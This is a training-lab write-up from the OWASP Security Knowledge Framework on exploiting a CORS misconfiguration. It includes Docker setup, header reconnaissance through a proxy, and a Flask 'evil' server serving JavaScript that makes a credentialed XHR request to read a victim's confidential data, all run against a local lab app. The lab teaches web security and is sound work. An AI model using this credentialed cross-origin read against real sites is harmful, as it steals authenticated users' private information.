# KBID 112 - CORS exploitation

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:cors
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to Zerocopter!](.gitbook/assets/zerocopter-logo.jpeg)

## Reconnaissance

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a '\*' wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed.

Nowadays most modern frameworks do dynamical allocation of the origin header. This means that the value that is send from the origin header is dynamically allocated to the Access-Control-Allow-Origin response from the server. To verify the behaviour we need to set up our intercepting proxy, make requests to an API server and tamper with the "origin" header.

Now that we have our proxies set-up let's first start and authenticate against the target application as the regular user.

![](.gitbook/assets/cors3.png)

{% hint style="info" %}
username : admin  
password: admin
{% endhint %}

![](.gitbook/assets/sensitive-info.png)

Now that we have logged in as the target user let's look at some intercepted traffic from the application.

![](.gitbook/assets/cors1.png)

The image above shows highlighted in red that indeed the application has CORS enabled and has set a wildcard for the "Access-Control-Allow-Origin" response header.

Now if we add a "Origin" request header we find that the value from the added Origin header is dynamically allocated to the "Access-Control-Allow-Origin" header.

![](.gitbook/assets/cors2%20%281%29.png)

The rest of the attack wil look kind of similar to a CSRF attack. However, instead of doing a state changing operation on behalf of the targeted user, we will now do a XHR GET request from our evil domain in order to steal sensitive information.

{% hint style="info" %}
More information about CSRF:  
[https://www.owasp.org/index.php/Testing\_for\_CSRF\_\(OTG-SESS-005\)](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)
{% endhint %}

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious XHR GET request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, render_template
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious XHR GET request.

```javascript
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','http://127.0.0.1:5000/confidential', true);
  req.withCredentials = true;
  req.send();

  function reqListener(){
    var foo = document.getElementById("stolenInfo").innerHTML= req.responseText;
    Console.log(foo)
  }
</script>

<p id="stolenInfo"></p>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Let's intercept the request from the evil application to the target application.

In this request we find the "Origin" header appended to the request from source "[http://127.0.0.1:1337](http://127.0.0.1:1337)" as to be expected. It is now good to note when we remove this header from the request the attack is no longer working.

![](.gitbook/assets/cors2.png)

This is due to the fact that the application framework has no value to do the dynamically allocation of the origin header from. Now the "Access-Control-Allow-Origin" response header falls back to it's default which is the "\*" \(wildcard\).

Now, whenever the browser discovers the following header combination:

```text
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

It triggers a hidden safety catch in CORS.

![](.gitbook/assets/cors-evil-blocked.png)

This disallows the developer to disable the SOP entirely and expose your site to everyone. At least so the browser thinks, because we have obviously already seen that the dynamically allocation of the origin header achieves the same effect!

Now we refresh the page and let our evil script perform the request as intended!

![](.gitbook/assets/final.png)

We now find that we have successfully have performed a XHR GET request on the authenticated victim users behalf and stolen the sensitive information from the target application!

## Additional sources

Please read here for more information about this attack:  
[https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

